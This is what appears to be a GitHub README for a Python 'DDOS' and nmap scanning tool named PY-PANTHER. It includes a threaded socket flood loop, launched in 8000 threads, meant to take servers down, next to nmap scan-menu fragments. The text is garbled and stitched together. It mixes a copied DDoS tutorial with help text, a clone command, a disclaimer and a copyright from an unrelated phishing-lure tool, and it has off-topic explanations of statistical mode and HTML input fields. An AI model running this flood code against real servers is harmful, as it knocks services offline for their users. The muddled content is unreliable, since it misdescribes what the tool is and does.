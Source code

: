 PY-PANTHER
==========

 Performing a DDOS attack onto any server that is not yours or you don’t have permission to attack is highly illegal..
 
 ---
 INTRODUCTION
----------------
 we are going to write a penetration-testing script, namely a DDOS script, in Python. This program will allow us to flood a server with so many reqeusts that, after a while, it won’t be able to respond anymore and it will go down.

But let me give you a big warning here! Performing a DDOS attack onto any server that is not yours or you don’t have permission to attack is highly illegal. I do not recommend the attacks on any servers other than your own and I am not responsible for what you are going to do with this script. This post is purely educational and shall help you to understand networking and programming with Python. So don’t do stupid things!

WHAT IS DDOS?

DDOS stands for Distributed Denial of Service and it is an attack where we block the ressources of a server by flooding it with requests. Usually this kind of attack is never performed alone but with the help of so-called botnets.
![PY-PANTHER](https://www.neuralnine.com/wp-content/uploads/2019/09/botnet2-1024x702.png)

In a botnet, one hacker infects many computers and servers of ordinary people, in order to use them as zombies. He uses them for a collective attack onto a server. Instead of one DDOS script, he can now run thousands of them. Sooner or later the server will be overwhelmed with the amount of requests so that it is not even able to respond to an ordinary user. For smaller and weaker servers, sometimes one attacker is enough to get it down. However, usually such an attack can be counteracted by blocking the IP-addresses of the attackers.

WHAT IS NMAP?
Nmap, short for Network Mapper, is a free, open-source tool for vulnerability scanning and network discovery. Network administrators use Nmap to identify what devices are running on their systems, discovering hosts that are available and the services they offer, finding open ports and detecting security risks.


Implementing The DDOS Script

The implentation of a DDOS script in Python is quite simple. We only need to send requests to a host on a specific port over and over again. This can be done with sockets. To speed the process up and make it more effective, we will use multi-threading as well. So, the following libraries will be needed for this tutorial:

```
import socket
import threading
```
then write the executable code

```
def restart_program() :
    python = sys.executable
    os.execl(python, python, *sys.argv)
    os.system('clear')
```
We all know, what import nmap is for, to import the nmap module to our python script.
Then we initialise the Nmap PortScanner to scan the ports on our local network.
```
scanner = nmap.PortScanner()
```
The type of scan we use in this attacks are:
```
mode = input("""\nEnter the type of scan!!!
                  [1] Domain LookUp
                  [2] Whole Network Scan
                  [3] Simple Network scan
                  [4] Aggressive Scan 
                  [5] CVE Scan
                  [00] Back\nEnter your option : """)
        print("\nYou have selected option: ", mode)
```        

The mode of a set of data values is the value that appears most often. It is the value at which the data is most likely to be sampled.
```
if mode == '1' :
```
The <input type="url"> defines a field for entering a URL.The input value is automatically validated before the form can be submitted.
```
 url = input("Enter the Domain Name : ")
 ```
 
 the if statements used for the conditional execution
 ```
  a = platform.system()
            if a == 'Windows' :
                print(os.system('ipconfig'))
            elif a == 'Linux' :
                print(os.system('ifconfig'))
            elif a == 'Darwin' :
                print(os.system('ifconfig'))
```
Enumerating(counting and listing one by one) all the open ports on You can also provide the IP address of any remote server as well, to scan
```
lport = scanner[ip][proto].keys()
```
As I already mentioned, DDOS is illegal. So be careful witht the target that you choose here. You can also choose your home server, your printer or maybe even your own website. If you don’t know your IP-address, you can use your command line and ping the domain to get it. As a fake IP-address I chose a random but still valid address. Last but not least, I decided to attack the port 80, which is HTTP. If you want to shut down a specific service, you need to know which port it is operating at.
```
  def attack() :
        while True :
          s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          s.connect((target, port))
          s.sendto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
          s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
```
We created a variable attack_num that tracks how many requests have been sent already. With every iteration, we increase this number and print it.
```
  global attack_num
  attack_num += 1
  print(attack_num)
  
  s.close()
```
In this case, we are starting 8000 threads that will execute our function.
Of course, you can play around with the number.When we now execute our script, we will DDOS the target but we won’t see anything.
If you want to see some information, you may print the amounts of requests already sent.
just notice that this will slow down your attack.
```
    for i in range(8000) :
        thread = threading.Thread(target=attack)
        thread.start()
```
**HELP  AND OPTIONS**
```
user:~$ python3 pypanther.py --help
usage: python pypanther.py -u <> -p <> [-h] [-v] [-u URL] [-p PORT]
                                              [-ak ACCESSKEY] [-l LOCAL]
                                              [--update] [-n] [-ic INJC]

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -u URL, --url URL     Put the web page url to clone
  -p PORT, --port PORT  Insert your port
  -ak ACCESSKEY, --accesskey ACCESSKEY
                        Insert your custom key access
  -l LOCAL, --local LOCAL
                        Insert your home file
  -n, --ngrok           Insert your ngrok Authtoken
  -ic INJC, --injectcode INJC
                        Insert your custom REST API path
  -ud UPDATE, --update UPDATE
                        Update trape to the latest version
```

**--url**  In this option you add the URL you want to clone, which works as a decoy.

**--port**  Here you insert the port, where you are going to run the  **PY-PANTHER server**.

**--accesskey**  You enter a custom key for the  **trape panel**, if you do not insert it will generate an  **automatic key**.

**--injectcode**  PY-PANTHER contains a  **REST API**  to play anywhere, using this option you can customize the name of the file to include, if it does not, generates a random name allusive to a token.

**--local**  Using this option you can call a local **HTML file**, this is the replacement of the  **--url**  option made to run a local lure in trape.

**--ngrok**  In this option you can enter a token, to run at the time of a process. This would replace the token saved in configurations.

**--version**  You can see the version number of PY-PANTHER.

**--update**  Option used to upgrade to the latest version of **PY-PANTHER**.

**--help**  It is used to see all the above options, from the executable.


How to use it
-------
 First unload the tool.
```
git clone https://github.com/jofpin/py-panther.git
cd py-panther
python2 py-panther.py -h
```
If it does not work, try to install all the libraries that are located in the file **requirements.txt**
```
python2 -m pip install -r requirements.txt
```
example
```
example:python2 py-panther.py --url http://exa

Disclaimer
-------
This tool has been published educational purposes. It is intended to teach people how bad guys could track them, monitor them or obtain information from their credentials, we are not responsible for the use or the scope that someone may have through this project.

We are totally convinced that if we teach how vulnerable things really are, we can make the Internet a safer place.

Developer
-------
ADCD STUDENTS COCHIN & CALICUT

Happy Pentesting!
-------
I invite you, if you use this tool helps to share, collaborate. Let's make the Internet a safer place, let's report.

## License

The content of this project itself is licensed under the [Creative Commons Attribution 3.0 license](http://creativecommons.org/licenses/by/3.0/us/deed.en_US), and the underlying source code used to format and display that content is licensed under the [MIT license](http://opensource.org/licenses/mit-license.php).

Copyright, 2018 by [Jose Pino](https://twitter.com/jofpin) 
